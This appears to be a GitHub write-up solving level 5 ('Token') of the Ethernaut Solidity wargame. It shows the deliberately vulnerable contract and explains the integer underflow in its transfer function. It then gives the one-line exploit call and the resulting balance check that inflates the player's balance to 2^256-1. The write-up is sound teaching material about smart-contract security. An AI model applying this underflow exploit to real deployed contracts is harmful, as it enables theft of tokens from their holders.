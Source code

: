 # Level 5: Token

This is the level 5 of [Ethernaut](https://ethernaut.openzeppelin.com/) game.

## Pre-requisites
- Integer [overflow/underflow](https://docs.soliditylang.org/en/v0.6.0/security-considerations.html#two-s-complement-underflows-overflows) in Solidity `v0.6.0`

## Hack

Given contract:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Token {

  mapping(address => uint) balances;
  uint public totalSupply;

  constructor(uint _initialSupply) public {
    balances[msg.sender] = totalSupply = _initialSupply;
  }

  function transfer(address _to, uint _value) public returns (bool) {
    require(balances[msg.sender] - _value >= 0);
    balances[msg.sender] -= _value;
    balances[_to] += _value;
    return true;
  }

  function balanceOf(address _owner) public view returns (uint balance) {
    return balances[_owner];
  }
}
```

`player` is initially assigned 20 tokens i.e. `balances[player] = 20` and has to somehow get any additional tokens (so that `balances[player] > 20` ).

The `transfer` method of `Token` performs some unchecked arithmetic operations on `uint256` (`uint` is shorthand for `uint256` in solidity) integers. That is prone to underflow.

The max value of a 256 bit unsigned integer can represent is `2^256 − 1`, which is - 

```
115,792,089,237,316,195,423,570,985,008,687,907,853,269,984,665,640,564,039,457,584,007,913,129,639,935
```

Hence `uint256` can only comprise values from `0` to `2^256 - 1` only. Any addition/subtraction would cause overflow/underflow. For example:
```
Let M = 2^256 - 1 (max value of uint256)

0 - 1 = M

M + 1 = 0

20 - 21 = M

(All numbers are 256-bit unsigned integers)
```

We're going to use last expression from example above to exploit the contract.

Let's call `transfer` with a zero address (or any address other than `player`) as `_to` and 21 as `_value` to transfer.

```javascript
await contract.transfer('0x0000000000000000000000000000000000000000', 21)
```

Here's how arithmetics of function would go:

The `require` check below would evaluate to true.
```
require(balances[msg.sender] - _value >= 0);
```

Because `balances[msg.sender] = 20` and `_value = 21`, hence
```
balances[msg.sender] - _value = 2^256 - 1 >= 0
```
due to underflow.

Next statement deducts `_value` amount from `player` address. At this point `balances[msg.sender] = 20` and `_value = 21`. Again an underflow:
```
balances[msg.sender] -= _value;
```
is same as
```
balances[msg.sender] = balances[msg.sender] - _value;
```

And so,
```
balances[msg.sender] = 20 - 21 = 2^256 - 1
```

Whoa! now the `player` (or `msg.sender`) has  `balances[msg.sender]` = `2^256 - 1` number of tokens!!!

Last statement just sets balance of a zero address to `_value` i.e. 21, which we couldn't care less about.

And that's it! `player` has acquired humongous no. of tokens, even way way way more than `totalSupply`. Verify by:
```javascript
await contract.balanceOf(player).then(v => v.toString())
// Output: '115792089237316195423570985008687907853269984665640564039457584007913129639935'
```

A nice thing to note is that it worked because contract's compiler version is `v0.6.0`. This, most probably, **won't work for latest version** (`v0.8.0` as of writing) because underflow/overflow causes failing assertion by default in latest version.


_Learned something awesome? Consider starring the [github repo](https://github.com/theNvN/ethernaut-openzeppelin-hacks)_ 😄

_and following me on twitter [here](https://twitter.com/heyNvN)_ 🙏
